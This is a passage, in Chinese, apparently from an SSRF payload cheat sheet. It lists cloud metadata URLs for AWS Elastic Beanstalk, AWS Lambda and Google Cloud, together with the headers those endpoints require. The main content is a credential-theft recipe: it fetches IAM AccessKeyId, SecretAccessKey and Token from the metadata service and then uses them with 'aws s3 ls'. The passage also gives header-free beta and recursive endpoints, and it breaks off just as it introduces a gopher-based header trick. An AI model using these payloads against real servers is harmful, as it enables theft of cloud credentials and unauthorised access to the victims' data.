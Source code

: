 这样您就可以提取附加角色的IAM密钥

## AWS Elastic Beanstalk的SSRF URL

我们从API检索`accountId`和`region`。

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

然后我们从API检索`AccessKeyId`、`SecretAccessKey`和`Token`。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

然后我们使用`aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`与凭证一起使用。

## AWS Lambda的SSRF URL

AWS Lambda为自定义运行时提供了一个HTTP API，用于从Lambda接收调用事件并在Lambda执行环境中发送响应数据。

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next
```

文档: <https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next>

## Google Cloud的SSRF URL

:warning: Google将于1月15日停止支持使用**v1元数据服务**。

需要请求头"Metadata-Flavor: Google"或"X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google允许递归拉取

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta版目前不需要请求头（感谢Mathias Karlsson @avlidienbrunn）

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

可以使用带有以下技术的gopher SSRF设置所需的请求头
